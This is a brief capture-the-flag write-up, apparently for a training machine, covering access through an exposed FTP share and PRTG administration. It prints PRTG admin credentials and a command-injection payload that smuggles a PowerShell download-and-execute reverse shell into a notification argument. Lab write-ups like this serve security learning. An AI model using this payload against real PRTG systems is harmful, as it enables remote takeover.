 ![](./logo.png)

# USER

FTP server exposes the entire machines directory. This gives us the ```user.txt```

# ROOT

Looking in the PRTG config files I found some credentials

```
prtgadmin
PrTg@dmin2018
```

The login did not work initially but changing the date to:

```
PrTg@dmin2019
```

Looking at the demo scripts for notifications it looks like the arguments are not sanitised
https://www.codewatch.org/blog/?p=453

Reverse shell
```
test.txt; IEX (New-Object Net.WebClient).DownloadString("http://10.10.14.55:8000/shell.ps1")
```

Getting the reverse shell gives us administrator and the flag
